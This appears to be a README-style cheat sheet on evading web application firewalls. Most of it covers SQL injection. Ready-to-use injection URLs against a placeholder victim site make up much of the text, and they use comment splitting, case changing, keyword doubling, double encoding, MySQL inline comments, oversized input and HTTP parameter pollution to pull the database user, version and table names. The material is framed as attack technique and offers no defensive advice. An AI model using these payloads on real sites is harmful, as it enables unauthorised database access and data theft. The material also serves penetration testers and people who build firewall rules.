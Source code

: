 <h1 align="center">WAF bypass Technique</h1>	

# Bypassing Methods and Techinques

#### 1. Pre-porcessor exploitation
- Make WAF skip input validation
#### 2. Impedance Mismatch
- WAF interpret input differently 
#### 3. Rule set Bypassing
- Use Payload that are not detected by WAF



# General step in WAF bypass

1. Fingerprint WAF and examine the filter rules
2. Encrypt the payload 
3. Test payload and examine the response 
4. If the payload cannot bypass WAF, use another payload and repeat from step 2






<h1 align="center">SQL injection WAF bypass</h1>


# Normal Bypassing Technique

## Bypass with Comment

- SQL comments allow to bypass a lot of filtering and WAF

`http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--`

## Case Changing

Some WAF filter only lowercase SQL keyword

Regex Fileter ==> ` /union\sselect/g`

`http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--`

## Replaced Keyword

- Some application and WAFs use preg_replace to remove all SQL keyword. So we can bypass 

`http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--`

- Some case SQL keyword was filtered out and replaced with whitespace. So we can use `%0b` to
bypass.

`http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--`

## Character Encoding


- Most CMSs and WAFs will decode and filter/bypass an application input, but some WAFs only `decode the input once` so `double encoding` can bypass certain filters as the WAF will decode the input once then filter while application keep decoding the SQL statement executing

#### Normal payload (blocked)

` http://victim.com/php-nuke/?/**/union/**/select`

#### Bypass Payload (`%2a = *`, `%2f = /`)

`http://victim.com/php-nuke/?/%2A%2A/union/%2A%2A/select`

#### Bypass Payload

`http://victim.com/php-nuke/?%2f**%2funion%2f**%2fselect`

####  Mod Security CRS (Credit: Johannes Dahse)

`http://victim.com/news.php?id=0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D
%0A1%2C2%2Ccurrent_user`

```
%OD%0A = New line
```

#### Decode payload 

```
0 div 1 union#foo*/*/bar
select#foo 1,2,current_user
```
- In MySQL DB palyload is executed like 

`0 div 1 union select 1,2,current_user`


## Buffer Overflow

-WAFs that written in the C language prone to overflow or act differently when loaded with a bunch of
data. Give a large amount of data allows our code executing

```
http://victim.com/news.php?id=1+and+(select 1)=(select
0x414141414141441414141414114141414141414141414141414141414141414141+union+select+1,2,version(),database(),user(),6,7,8,9,10--

```

## Inline Comments (MySQL Only)


-  MySQL Server supports some variants of C-style comments.
These enable you to write code that includes MySQL extensions, but is still portable, by using
comments of the following form: 

`/*! MySQL-specific code */`

- A lot of WAFs filter SQL keywords like /union\sselect\ig We can bypass this filter by using inline
comments.

`http://victim.com/news.php?id=1/*!UnIoN*/SeLecT+1,2,3--`

- Inline comments can be used throughout the SQL statement so if table_name or information_schema
are filtered we can add more inline comments

`http://victim.com/news.php?id=/*!UnIoN*/+/*!SeLecT*/+1,2,concat(/*!table_name*/)
+FrOm/*!information_schema*/.tables/*!WhErE*/+/*!TaBlE_sChEMa*/+like+database()--`




# Advanced WAF Bypass

## 1. HTTP parameter Pollution & Encoding Technique

- sending a number of parameter with th same name

- Technology interpret this request differently 



#### Normal Payload

`http://www.website.com/products/?productid=1`

#### Bypass Payload


`http://www.website.com/products/?productid=1&productid=2`

<table>
	
	<tr>
		<th>Backend </th>
		<th>Behaviour </th>
		<th>Process </th>

	</tr>

	<tr>
		<td>ASP.NET </td>
		<td>Concat with comma </td>
		<td>productid=1,2 </td>

	</tr>
	<tr>
		<td>JSP </td>
		<td>First Para </td>
		<td>productid=1 </td>

	</tr>
	<tr>
		<td>PHP </td>
		<td>Last Para </td>
		<td>productid=2 </td>

	</tr>
	

</table>






